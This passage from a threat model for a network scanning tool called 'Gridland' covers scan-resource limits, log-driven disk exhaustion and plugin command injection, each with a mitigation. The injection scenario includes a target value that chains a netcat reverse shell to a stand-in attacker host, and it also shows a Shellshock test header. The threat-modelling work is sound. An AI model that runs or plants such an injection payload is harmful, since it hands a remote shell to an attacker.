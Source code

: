         - A limit on the maximum size of a CIDR block that can be scanned at one time (e.g., no larger than a /22).
        - A limit on the number of concurrent jobs a single user (or source IP, if unauthenticated) can have running.
        - A global limit on the total number of active scan threads across the entire application.
    - **Job Queuing and Prioritization:** Implement a proper job queue (e.g., using Celery and Redis). Instead of launching scans immediately, new jobs are added to the queue. Worker processes can then pull jobs from the queue at a controlled rate, ensuring the server is never overwhelmed. This also allows for job prioritization (e.g., smaller scans run before larger ones).

### 5.2. Filesystem Exhaustion via Uncontrolled Logging

- **Threat Description:** The application writes detailed logs to the `logs/` directory for every scan. There is no mechanism for log rotation, compression, or cleanup.
- **Attack Scenario:** An attacker, over a period of several days, uses a script to launch thousands of small, targeted scans against a wide variety of ports. Each scan generates a new log file. The `logs/` directory slowly fills up with tens of thousands of files. Eventually, the filesystem partition where the application is stored runs out of space. This causes the Gridland application to crash when it next tries to write to a log file. Furthermore, it could crash the entire server if the root filesystem is full, affecting all other services.
- **Impact Assessment:** Medium. This can lead to application instability and eventual failure. The attack is slow but requires little sophistication.
- **Proposed Mitigation:**
    - **Implement Log Rotation:** Use a standard log rotation tool like `logrotate` to manage the application's log files. Logs should be rotated based on size (e.g., every 100MB) and/or time (e.g., daily).
    - **Automatic Cleanup:** Rotated logs should be compressed to save space and automatically deleted after a defined retention period (e.g., 30 days).
    - **Monitor Disk Space:** Implement monitoring and alerting for the server's filesystem. An administrator should be automatically notified if disk space on any critical partition drops below a certain threshold (e.g., 20% free).

---

## 6. Elevation of Privilege

### 6.1. Remote Code Execution via Plugin Command Injection

- **Threat Description:** A future or existing plugin could be developed to use external command-line tools to perform part of its scan. If the input passed to these external commands is not rigorously sanitized, an attacker could inject shell metacharacters and execute arbitrary commands on the Gridland server.
- **Attack Scenario:** A developer adds a new feature to the `vulnerability_scanner` to check for the "Shellshock" bash vulnerability. To do this, they make the plugin craft and execute a command like: `os.system(f"curl -H 'User-Agent: () {{ :; }}; echo VULNERABLE' {target.ip}")`. The developer assumes `target.ip` will always be a valid IP address. An attacker, knowing this, provides a malicious string as the target IP: `8.8.8.8; nc -e /bin/bash attacker.com 1234`. The application constructs and executes the command: `curl -H '...' 8.8.8.8; nc -e /bin/bash attacker.com 1234`. The curl command runs, and then the attacker's netcat command executes, giving them a reverse shell on the Gridland server, running with the privileges of the application user.
- **Impact Assessment:** Critical. This provides a direct path to Remote Code Execution (RCE) on the server.
- **Proposed Mitigation:**
    - **Avoid Shelling Out:** Never use `os.system()` or `subprocess.run(..., shell=True)`. When calling external commands, always use `subprocess.run()` with a list of arguments (e.g., `subprocess.run(['curl', '-H', user_agent, target_ip])`). This prevents the shell from interpreting metacharacters.
    - **Input Sanitization and Validation:** All input that will be used in a command-line argument must be strictly validated against a whitelist of allowed characters. For an IP address, this means ensuring it conforms to the IPv4 or IPv6 format and contains no other characters.
    - **Principle of Least Privilege:** If a plugin absolutely must run a command, it should be done within a sandboxed environment (e.g., a Docker container or a `chroot` jail) with minimal privileges and no network access, to limit the impact of a potential compromise.
